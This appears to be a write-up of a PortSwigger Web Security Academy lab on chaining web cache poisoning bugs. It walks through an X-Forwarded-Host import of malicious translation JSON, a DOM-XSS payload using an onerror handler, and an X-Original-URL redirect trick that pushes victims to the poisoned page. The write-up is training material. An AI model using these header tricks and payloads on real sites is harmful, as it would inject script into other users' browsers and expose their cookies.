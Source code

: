 # Combining web cache poisoning vulnerabilities

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities) is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. 

## Reproduction

1. With Burp running, load the website's home page.
2. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` and `X-Original-URL` headers are supported.

![Web cache poisoning](../../_static/images/cache17.png)

![Web cache poisoning](../../_static/images/cache18.png)

3. In Burp Repeater, experiment with the `X-Forwarded-Host` header. It can be used to import an arbitrary JSON file instead of the `translations.json` file, which contains translations of UI texts.

![Web cache poisoning](../../_static/images/cache19.png)

4. The website is vulnerable to DOM-XSS due to the way the `initTranslations()` function handles data from the JSON file for all languages except English:

![Web cache poisoning](../../_static/images/cache20.png)

```text
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

5. Go to the exploit server and edit the file name to match the path used by the vulnerable website: `/resources/json/translations.json`. 
6. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
7. In the body, add malicious JSON that matches the structure used by the real translation file. Replace the value of one of the translations with a suitable XSS payload, for example:

```text
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción"
        }
    }
}
```

![Web cache poisoning](../../_static/images/cache22.png)

8. **Store** the exploit.
9. In Burp, find a `GET` request for `/?localized=1` that includes the `lang` cookie for Spanish:
    `lang=es`

![Web cache poisoning](../../_static/images/cache23.png)

![Web cache poisoning](../../_static/images/cache24.png)

10. Send the request to Burp Repeater. Add a cache buster like `?cb=1234` and the `X-Forwarded-Host` header with the exploit server ID: `X-Forwarded-Host: exploit-server-id.exploit-server.net`. 
11. Send and confirm that the exploit server is reflected in the response.

![Web cache poisoning](../../_static/images/cache25.png)

12. To simulate the victim, load the URL in the browser and confirm that the `alert()` fires.
13. The cache for the Spanish page is poisoned, but the target user's language is set to English. It is not possible to exploit users with their language set to English, so a way to forcibly change language is needed.
14. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. When changing the language on the page to anything other than English, this triggers a redirect, for example, to `/setlang/es`. The user's selected language is set server side using the `lang=es` cookie, and the home page is reloaded with the parameter `?localized=1`.
15. Send the `GET` request for the home page to Burp Repeater and add a cache buster.
16. The `X-Original-URL` can be used to change the path of the request to explicitly set `/setlang/es`. This response cannot be cached because it contains the `Set-Cookie` header.
17. The home page sometimes uses backslashes as a folder separator. The server normalises these to forward slashes using a redirect. As a result, `X-Original-URL: /setlang\es` triggers a `302` response that redirects to `/setlang/es`. This `302` response is cacheable and can be used to force other users to the Spanish version of the home page.
18. Combine these two exploits. First, poison the `GET /?localized=1` page using the `X-Forwarded-Host` header to import the malicious JSON file from the exploit server.
19. And while the cache is still poisoned, poison the `GET /` page using `X-Original-URL: /setlang\es` to force all users to the Spanish page.
20. To simulate the victim, load the English page in the browser and make sure that you are redirected and that the `alert()` fires.
21. Replay both requests in sequence to keep the cache poisoned on both pages until the victim visits the site and the lab is solved.

## PoC

[![Screencast PoC Combining web cache poisoning vulnerabilities](../../_static/images/vids/combining-wcp.png)](https://vimeo.com/798733664)

## Exploitability

An attacker will need to poison the cache with multiple malicious responses simultaneously and coordinate this with the victim's browsing behaviour.  
